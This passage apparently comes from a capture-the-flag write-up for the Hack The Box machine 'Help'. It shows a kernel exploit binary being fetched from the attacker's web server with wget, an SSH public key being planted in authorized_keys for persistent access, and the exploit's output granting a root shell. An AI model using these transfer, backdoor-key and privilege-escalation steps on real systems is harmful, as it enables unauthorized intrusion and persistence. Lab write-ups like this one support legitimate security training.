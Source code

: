 Now that we have a compiled binary form we need to get it on the box. Luckily file transfers are easy with the tools built in to Linux (`wget`) So locally in our directory we spin up a temporary web server with `python -m SimpleHTTPServer 80` and back on the box use `wget` to download the file somewhere 
```
help@help:~$ wget 10.10.14.22/thoseguys -O /tmp/thoseguys
```
This throws an invalid argument error… could be our pseudo shell, we know that ssh is on the box, so lets upgrade to a better shell with ssh.

Back on our local box, we generate some ssh keys with ssh-keygen:

root@kali: ssh-keygen -f thoseguys              
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in thoseguys.
Your public key has been saved in thoseguys.pub.
...

Chmod the private key `chmod 600 thoseguys` and then get the contents of the public key with `cat thoseguys.pub`

Copy the contents of the public key and in our reverse shell, create a .ssh directory in the users home directory and echo it out into an authorized_keys file:
```
mkdir -p /home/help/.ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/iyUSYgZPfiQ5n0j77yyOR/zFCJeBFA4rwVmGAxwdmReSR1CnlkRkdLy4vsvixZYqyOjjoUX8nSg8wBVnDF6bkUEn1m4eYV3mOfMiuNBaglhaCnigG4MBnrd8t0D7l/lg5oDUfJWAS/TiepqLuQODO6tXKhD1/OwurxYWEj1d4KFRNq5depJom2BEiyCLB5YCpKK79hX5REqe6RmqlASY6TC707lxWeq0upQ5scYxO0veU/E0YyMLi7gwvPiJryJ3f/VnoMQT93eRyxNWlCwAAdRM6I46eB3jacQdpxnT+RKOiIrnlV7Opx6UVYdPIGphE/qO+fHGxrjWhEaDYli3 root@kali' > /home/help/.ssh/authorized_keys
chmod 600 /home/help/authorized_keys
```
We are now able to connect directly to the box through ssh:
```
root@kali: ssh -i thoseguys help@10.10.10.121   
The authenticity of host '10.10.10.121 (10.10.10.121)' can't be established.
ECDSA key fingerprint is SHA256:hObUCDbNmiPilZ/0rchuxdSfRB7uSKrmk/4TjE5nCnk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.121' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have new mail.
Last login: Fri Jan 11 06:18:50 2019
help@help:~$ ssh in as help
```
Now when we run the exploit we get a root shell:
```
help@help:/tmp$ ./thoseguys
task_struct = ffff88003aabb800
uidptr = ffff8800370bb684
spawning root shell
root@help:/tmp# 
root@help:/tmp# cat /root/root.txt
b7fe6[REDACTED]ddb98
```
Nice and fairly straight forward box.